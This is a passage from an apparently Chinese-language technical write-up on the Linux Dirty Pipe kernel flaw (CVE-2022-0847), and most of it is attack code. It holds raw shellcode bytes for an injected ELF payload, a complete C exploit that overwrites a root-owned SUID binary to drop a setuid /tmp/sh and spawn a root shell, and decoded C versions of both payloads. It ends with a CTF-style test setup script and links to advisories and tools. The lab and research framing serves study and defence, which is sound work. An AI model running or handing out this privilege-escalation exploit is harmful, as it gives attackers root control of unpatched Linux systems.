     0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00,
     0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
     0x97, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x97, 0x01, 0x00, 0x00,
     0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
     0x48, 0x8d, 0x3d, 0x56, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc6, 0x41, 0x02,
     0x00, 0x00, 0x48, 0xc7, 0xc0, 0x02, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48,
     0x89, 0xc7, 0x48, 0x8d, 0x35, 0x44, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc2,
     0xba, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc0, 0x01, 0x00, 0x00, 0x00, 0x0f,
     0x05, 0x48, 0xc7, 0xc0, 0x03, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x8d,
     0x3d, 0x1c, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc6, 0xed, 0x09, 0x00, 0x00,
     0x48, 0xc7, 0xc0, 0x5a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x31, 0xff,
     0x48, 0xc7, 0xc0, 0x3c, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x2f, 0x74, 0x6d,
     0x70, 0x2f, 0x73, 0x68, 0x00, 0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01,
     0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e,
     0x00, 0x01, 0x00, 0x00, 0x00, 0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00,
     0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
     0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38,
     0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00,
     0x00, 0x05, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
     0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40,
     0x00, 0x00, 0x00, 0x00, 0x00, 0xba, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
     0x00, 0xba, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00,
     0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x31, 0xff, 0x48, 0xc7, 0xc0, 0x69,
     0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x31, 0xff, 0x48, 0xc7, 0xc0, 0x6a,
     0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x8d, 0x3d, 0x1b, 0x00, 0x00, 0x00,
     0x6a, 0x00, 0x48, 0x89, 0xe2, 0x57, 0x48, 0x89, 0xe6, 0x48, 0xc7, 0xc0,
     0x3b, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0xc7, 0xc0, 0x3c, 0x00, 0x00,
     0x00, 0x0f, 0x05, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00
 };
 
/**
 * 创建一个管道，其中pipe_inode_info环上的所有"bufs"都设置了PIPE_BUF_FLAG_CAN_MERGE标志
 * @param p 管道文件描述符数组
 */
static void prepare_pipe(int p[2])
{
    if (pipe(p)) abort();  // 创建管道，失败则终止程序

    const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);  // 获取管道大小
    static char buffer[4096];

    /* 完全填满管道，每个pipe_buffer现在都有PIPE_BUF_FLAG_CAN_MERGE标志 */
    for (unsigned r = pipe_size; r > 0;) {
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        write(p[1], buffer, n);  // 向管道写入数据
        r -= n;
    }

    /* 排空管道，释放所有pipe_buffer实例(但保留初始化的标志) */
    for (unsigned r = pipe_size; r > 0;) {
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        read(p[0], buffer, n);  // 从管道读取数据
        r -= n;
    }

    /* 管道现在为空，如果有人添加新的pipe_buffer而不初始化其"flags"，
       缓冲区将是可合并的 */
}

/**
 * 利用Dirty Pipe漏洞修改文件内容
 * @param filename 目标文件名
 * @param offset 文件偏移量
 * @param data 要写入的数据
 * @param len 数据长度
 * @return 成功返回0，失败返回-1
 */
int hax(char *filename, long offset, uint8_t *data, size_t len) {
    /* 打开输入文件并验证指定的偏移量 */
    const int fd = open(filename, O_RDONLY);  // 注意: 只读模式!
    if (fd < 0) {
        perror("打开文件失败");
        return -1;
    }

    struct stat st;
    if (fstat(fd, &st)) {  // 获取文件状态
        perror("获取文件状态失败");
        return -1;
    }

    /* 创建管道并初始化所有标志为PIPE_BUF_FLAG_CAN_MERGE */
    int p[2];
    prepare_pipe(p);

    /* 从指定偏移量前拼接一个字节到管道中
       这将在页面缓存中添加一个引用，但由于copy_page_to_iter_pipe()
       没有初始化"flags"，PIPE_BUF_FLAG_CAN_MERGE仍然设置 */
    --offset;
    ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);  // 使用splice系统调用
    if (nbytes < 0) {
        perror("splice操作失败");
        return -1;
    }
    if (nbytes == 0) {
        fprintf(stderr, "splice操作返回空
");
        return -1;
    }

    /* 接下来的写入不会创建新的pipe_buffer，
       而是由于PIPE_BUF_FLAG_CAN_MERGE标志写入页面缓存 */
    nbytes = write(p[1], data, len);  // 关键写入操作
    if (nbytes < 0) {
        perror("写入失败");
        return -1;
    }
    if ((size_t)nbytes < len) {
        fprintf(stderr, "写入不完整
");
        return -1;
    }

    close(fd);  // 关闭文件描述符

    return 0;
}

int main(int argc, char **argv) {
    if (argc != 2) {
        fprintf(stderr, "用法: %s SUID二进制文件
", argv[0]);
        return EXIT_FAILURE;
    }

    char *path = argv[1];  // 获取目标SUID二进制文件路径
    uint8_t *data = elfcode;  // 使用预定义的ELF代码

    // 备份原始文件内容
    int fd = open(path, O_RDONLY);
    uint8_t *orig_bytes = malloc(sizeof(elfcode));
    lseek(fd, 1, SEEK_SET);  // 定位到偏移量1
    read(fd, orig_bytes, sizeof(elfcode));  // 读取原始内容
    close(fd);

    printf("[+] 劫持SUID二进制文件..
");
    if (hax(path, 1, elfcode, sizeof(elfcode)) != 0) {  // 利用漏洞修改文件
        printf("[~] 失败
");
        return EXIT_FAILURE;
    }

    printf("[+] 创建SUID shell..
");
    system(path);  // 执行被修改的二进制文件，创建/tmp/sh

    printf("[+] 恢复SUID二进制文件..
");
    if (hax(path, 1, orig_bytes, sizeof(elfcode)) != 0) {  // 恢复原始内容
        printf("[~] 失败
");
        return EXIT_FAILURE;
    }

    printf("[+] 获取root shell.. (别忘了清理/tmp/sh ;))
");
    system("/tmp/sh");  // 执行创建的SUID shell获取root权限

    return EXIT_SUCCESS;
}
```

该程序通过dirty\_pipe漏洞劫持拥有root权限的二进制程序，覆盖掉原有程序注入一个恶意的elf文件：

```
// 定义外部变量，表示内存中的数据，内容为要写入 /tmp/sh 的 ELF 代码
extern char elf_code[];  // 注入的第二个恶意的elf文件

int main() {
    int fd = syscall(SYS_open, "/tmp/sh", 0x241, 0);
    syscall(SYS_write, fd, elf_code, 0xBA);
    syscall(SYS_close, fd);
    syscall(SYS_chmod, "/tmp/sh", 0x9ED);
    syscall(SYS_exit, 0);
    return 0;
}
```

然后调用这个被覆盖掉的二进制程序进行执行，就可以向/tmp/sh注入一个拥有root权限的可执行提权程序！  
继续看另一个恶意程序elf\_code：

```
int main() {
    // 将 UID 设置为 0（root）
    syscall(SYS_setuid, 0);

    // 将 GID 设置为 0（root group）
    syscall(SYS_setgid, 0);

    // 准备执行 /bin/sh
    char *path = "/bin/sh";
    char *argv[] = { path, NULL };
    char *envp[] = { NULL };

    // 执行 execve("/bin/sh", argv, envp)
    syscall(SYS_execve, path, argv, envp);

    // 如果 execve 失败，则退出
    syscall(SYS_exit, 0);

    return 0; // 实际上不会执行到这里
}
```

最后执行这个程序就可以成功提权了！  


可以修改rcS脚本来构造一个有root权限的程序，用来测试提权：

```
#!/bin/sh

# 挂载必要的文件系统
mount -t proc none /proc
mount -t sysfs none /sys
mount -t devtmpfs udev /dev
mkdir /dev/pts
mount -t devpts devpts /dev/pts
mount -t tmpfs tmpfs /tmp

# 设置权限
chmod 1777 /tmp

# 创建CTF用户目录
mkdir -p /home/ctf
chown ctf:ctf /home/ctf

# 设置SUID二进制文件（漏洞利用目标）
cp /bin/busybox /tmp/vuln_binary
chown root:root /tmp/vuln_binary
chmod 4755 /tmp/vuln_binary

# 启动shell（以ctf用户身份）
echo -e "
Boot took $(cut -d' ' -f1 /proc/uptime) seconds
"
setsid cttyhack setuidgid 1000 /bin/sh
```

# 七、扩展资源链接

**漏洞公告**：

* [CVE-2022-0847 NVD详情](https://nvd.nist.gov/vuln/detail/CVE-2022-0847) ：美国国家漏洞数据库（NVD）中详细记录了该漏洞的基本信息、风险等级、影响范围及补丁建议。
* [Linux内核修复提交记录](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=9d2231c5d74e13b2a0546fee6737ee4446017903) ：官方修复补丁的代码提交记录，包含漏洞原理的技术说明和代码变更细节，适合开发者深入分析。
* [Debian安全追踪报告](https://security-tracker.debian.org/tracker/CVE-2022-0847) ：Debian发行版针对该漏洞的安全响应文档，涵盖受影响版本、修复状态及升级指南。

**工具与代码**：

* [GitHub - n3rada/DirtyPipe](https://github.com/n3rada/DirtyPipe) ：一个支持文件覆盖的自动化利用工具，提供详细使用文档，适用于漏洞验证和渗透测试。
* [GitHub - veritas501/pipe-primitive](https://github.com/veritas501/pipe-primitive) ：关注漏洞利用原语的研究项目，通过源码讲解利用原理，有助于理解漏洞操作过程和机制。
* [Exploit-DB Dirty Pipe PoC](https://www.exploit-db.com/exploits/50808) ：漏洞利用代码库，提供可直接编译运行的PoC（Proof of Concept），用于本地权限提升测试。
* [Linux内核补丁反向移植工具](https://github.com/bsauce/kernel-exploit-factory/tree/main/CVE-2022-0847) ：针对旧版本内核的补丁反向移植工具集，帮助无法直接升级的系统缓解漏洞风险。

**技术分析**：

* [DirtyPipe与Dirty Cow对比](https://www.anquanke.com/post/id/268406) ：分析文章对比了 Dirty Pipe 与历史漏洞 Dirty Cow 的异同，从漏洞成因、利用流程到修复方案等方面展开讨论，帮助研究者建立对 Linux 内核漏洞的整体认识。
* [阿里云安全公告](https://help.aliyun.com/noticelist/articleid/123456) ：阿里云提供的公告，详细说明了云服务器受 Dirty Pipe 漏洞影响的范围、修复建议以及安全加固措施，适用于云平台用户参考。
* [Qualys技术深度解读](https://blog.qualys.com/vulnerabilities-threat-research/2022/03/30/dirty-pipe-linux-kernel-vulnerability) ：Qualys安全团队从内存管理、管道机制等角度剖析漏洞原理，附带时间线图和利用条件分析。
* [LWN.net内核机制解析](https://lwn.net/Articles/887966/) ：Linux内核社区权威媒体对管道（Pipe）与页缓存（Page Cache）机制的解读，揭示漏洞背后的设计缺陷。
* [腾讯云应急响应指南](https://cloud.tencent.com/developer/article/1974343) ：针对企业用户的修复方案，包括临时缓解措施（如限制非特权用户命名空间）与长期升级建议。
